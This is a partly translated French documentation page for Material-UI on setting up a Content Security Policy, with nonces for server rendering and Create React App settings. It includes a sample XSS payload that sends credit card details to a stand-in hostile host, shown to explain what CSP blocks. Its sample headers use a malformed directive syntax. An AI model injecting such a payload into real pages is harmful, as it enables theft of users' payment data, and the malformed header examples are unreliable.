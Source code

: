 # Politique de sécurité du contenu (CSP)

<p class="description">Cette section couvre les détails de la mise en place d'un CSP.</p>

## Qu'est-ce que le CSP et en quoi est-ce utile ?

CSP atténue les attaques de scripts intersites (XSS) en obligeant les développeurs à mettre sur liste blanche les sources à partir desquelles leurs actifs sont récupérés. Cette liste est renvoyée en tant qu'en-tête du serveur. Par exemple, disons que vous avez un site hébergé à `https://example.com` l'en-tête CSP `default-src: 'self';` autorisera toutes les requêtes à destination de `https://example.com/*` et refusera tous les autres. Si une section de votre site Web est vulnérable au XSS dans laquelle une entrée d'utilisateur non échappée est affichée, un attaquant pourrait saisir quelque chose du genre :

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Cette vulnérabilité permettrait à l'attaquant d'exécuter n'importe quoi. Cependant, avec un en-tête CSP sécurisé, le navigateur ne chargera pas ce script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## Comment met-on en place un CSP?

### Rendu côté serveur (SSR)

Pour utiliser CSP avec Material-UI (et JSS), vous devez utiliser un nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS a un [ excellent tutoriel ](https://github.com/cssinjs/jss/blob/master/docs/csp.md) comment y parvenir avec Express et React Helmet. Pour un aperçu de base, continuez à lire.

Un nonce CSP est une chaîne codée en Base 64. Vous pouvez en générer un comme ceci:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

Vous devez utiliser l'UUID version 4, car il génère une chaîne **imprévisible**. Vous appliquez ensuite ce nonce à l'en-tête CSP. Un en-tête CSP pourrait ressembler à ceci avec le nonce appliqué:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

Vous devez passer le nonce dans la balise `<style>` sur le serveur.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

Ensuite, vous devez transmettre ce nonce à JSS afin qu’il puisse l’ajouter aux balises `<style>` suivantes.

The way that you do this is by passing a `<meta property="csp-nonce" content={nonce} />` tag in the `<head>` of your HTML. JSS will then, by convention, look for a `<meta property="csp-nonce"` tag and use the `content` value as the nonce.

Here is an example of what a fictional header could look like:

```html
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Créer une application React (CRA)

Selon les [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), une Create React App intégrera dynamiquement le script d'exécution dans index.html lors de la génération de production par défaut. Cela nécessitera la définition d'un nouveau hachage dans votre CSP lors de chaque déploiement.

Pour utiliser un CSP avec un projet initialisé en tant qu'application Create React, vous devrez définir la variable `INLINE_RUNTIME_CHUNK=false` dans le fichier `.env` utilisé pour votre build de production. Cela importera le script d'exécution comme d'habitude au lieu de l'incorporer, évitant ainsi d'avoir à définir un nouveau hachage lors de chaque déploiement.
